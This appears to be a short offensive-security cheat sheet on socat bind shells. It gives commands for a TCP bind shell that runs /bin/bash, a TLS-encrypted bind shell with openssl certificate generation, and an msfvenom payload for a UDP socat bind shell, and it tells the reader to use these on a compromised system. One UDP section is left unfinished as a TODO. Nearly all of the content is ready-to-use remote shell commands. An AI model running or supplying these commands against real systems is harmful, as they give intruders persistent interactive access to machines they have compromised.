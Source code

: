 # Socat

## 01 - TCP Method

```
$ socat tcp-listen:<PORT>,reuseaddr,fork exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane
```
\
### 1.1 - Encrypted Bind Shell

Note: Only generated TLS certificates in a compromised system.

```
$ openssl req -newkey rsa:2048 -nodes -keyout private.key -x509 -days 362 -out certificate.crt

$ cat private.key certificate.crt > key.pem

$ socat OPENSSL-LISTEN:<PORT>,cert=key.pem,verify=0,fork EXEC:/bin/bash
```

## 02 - UDP Method

TODO: Generate an msfvenom for UDP bind shell socat

```
$ socat
```

## 03 - Generate via `msfvenom`

### 3.1 - UDP Method

```
$ msfvenom -p cmd/unix/bind_socat_udp lport=<PORT>
```